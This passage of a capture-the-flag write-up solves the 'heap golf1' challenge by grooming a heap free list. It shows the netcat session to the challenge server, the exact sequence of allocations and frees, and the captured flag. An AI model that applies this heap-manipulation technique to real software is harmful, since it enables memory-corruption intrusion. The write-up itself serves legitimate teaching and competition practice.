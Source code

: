 <p align="center"> <img src="./heap_golf1_solution_part2.png" | width=500> </p>

Finally, we allocate four more times of user specified size 32 in order to walk the free list until we reach the first allocation and write the value of num_alloc which at this point is 4.

<p align="center"> <img src="./heap_golf1_solution_part3.png" | width=500> </p>

So the final terminal output for the solution is:

<pre>
nc chal1.swampctf.com 1066
target green provisioned.
enter -1 to exit simulation, -2 to free course.
Size of green to provision: 32
Size of green to provision: 32
Size of green to provision: 32
Size of green to provision: 32
Size of green to provision: -2
target green provisioned.
Size of green to provision: 32
Size of green to provision: 32
Size of green to provision: 32
Size of green to provision: 32
<b>flag{Gr34t_J0b_t0ur1ng_0ur_d1gi7al_L1nk5}</b>
Size of green to provision: ^C
</pre>
